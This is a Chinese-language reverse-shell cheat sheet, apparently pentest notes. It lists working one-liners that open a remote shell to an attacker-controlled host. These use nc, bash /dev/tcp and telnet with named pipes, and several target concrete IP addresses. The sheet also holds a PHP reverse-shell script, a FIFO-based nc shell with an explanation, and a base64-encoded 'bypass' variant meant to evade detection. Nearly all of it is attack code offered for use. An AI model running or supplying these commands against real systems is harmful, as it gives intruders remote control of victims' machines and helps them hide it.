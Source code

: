 # 反弹shell
{ #5af79a}


```
nc -e 攻击者ip 端口 /bin/bash

bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 

bash -c ‘exec bash -i &>/dev/tcp/61.139.2.153/8888 <&1’

bash -c 'bash -i >& /dev/tcp/61.139.2.153/8888 0>&1'

mkfifo+/tmp/test;telnet+61.139.2.128+2334+0</tmp/test|/bin/sh+>+/tmp/test
```
{ #0be5ac}


## php版本
```php
<?php  
$ip = '攻击者IP'; // 替换为攻击者监听IP  
$port = 监听端口; // 替换为攻击者监听端口  
$sock = fsockopen($ip, $port);  
$descriptorspec = array(0 => $sock, 1 => $sock, 2 => $sock);  
$process = proc_open('/bin/sh', $descriptorspec, $pipes);  
proc_close($process);  
?>
```

## 脚本
```
echo 'mknod backpipe p && nc 61.139.2.153 4444 0<backpipe | /bin/bash 1>backpipe' > priv.sh

mknod backpipe p
作用​​：创建一个名为 backpipe`的​​命名管道（FIFO）​



0<backpipe | /bin/bash 1>backpipe
-将 `backpipe` 管道的内容作为 `nc` 命令的​**​标准输入（stdin）​**​

/bin/bash`​
    启动一个 Bash Shell 进程。
    
1>backpipe：  
    将 Bash 的​标准输出（stdout）​​重定向到 `backpipe` 管道

```

## 绕过版
```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMC4xMjgvODg4OCAwPiYx" | base64 -d | bash

bash -i >& /dev/tcp/192.168.110.128/8888 0>&1
```
